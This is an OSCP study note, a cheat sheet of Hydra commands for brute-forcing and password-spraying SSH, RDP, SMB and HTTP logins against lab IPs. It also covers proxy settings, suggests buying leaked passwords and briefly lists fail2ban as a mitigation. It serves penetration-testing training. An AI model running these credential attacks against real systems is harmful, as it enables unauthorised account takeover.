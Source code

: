 ```yaml
---
aliases:
  - Attacking Network Services Logins
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - password
  - password_attacks
  - network_services
  - network_services_logins
author: Mehdi N Tehrani
creat_date: 2023-12-30
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# SSH and RDP
#ssh #rdp 
## Hydra
#hydra
```sh
hydra -l <login> -L <login_file> -p <password> -P <password_file> -C <colon separated login:pass file> -M <servers list file> -t <tasks(threads) def:16> <service>://<server>:<port> -f -v
        ^ exit when login:pass is found
           ^ verbose
```
### dictionary attack
#dictionary_attack 
#ssh
```sh
hydra -l <username> -P <wordlist> ssh://<ip>:<port>
       ^ login       ^ password file

# example
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.247.201
```
#rdp
```sh
hydra -fvt 1 -l user -P /usr/share/wordlists/rockyou.txt rdp://192.168.247.201:3389
     # ^ exit when user:pass found
     #  ^ verbose
     #   ^ task 1: single threaded
```
#smb
```sh
hydra -fvt 1 -l user -P /usr/share/wordlists/rockyou.txt smb://192.168.247.201:445
```

### password spraying
#password_spraying 
```sh
hydra -L <username file> -p <password> ssh://<ip>:<port>
       ^ login file       ^ password

# example
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#"
rdp://192.168.247.202
       ^ login file
```
#### obtain leaked passwords
#leaked_password
Services such as [ScatteredSecrets](https://scatteredsecrets.com/) track password leaks and compromises and sell the plaintext passwords.


> [!info] We should always try to leverage every plaintext password we discover by spraying them against the target's systems. This could reveal users that use the same password across multiple systems.

> [!danger] However, we must also use caution when leveraging broad-range attacks.

### HTTP post form
#http_post_form #http_post
```sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.247.201 http-post-form "/index.php:fm_user=user&fm_pwd=^PASS^:Login failed. Invalid"
```

### HTTP Basic Authorization
#basic_authorization #http_basic_authorization
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.247.201 http-get
```

# Proxy
#hydra_proxy #proxy 
```
export HYDRA_PROXY="connect://<ip>:<port>"
export HYDRA_PROXY="socks4://<ip>:<port>"
export HYDRA_PROXY="socks5://<ip>:<port>"
```

# Mitigation
## Web Application Firewall (WAF)
#waf
## fail2ban 
#fail2ban
https://www.fail2ban.org/wiki/index.php/Main_Page
Locks a user out after a set number of failed login attempts


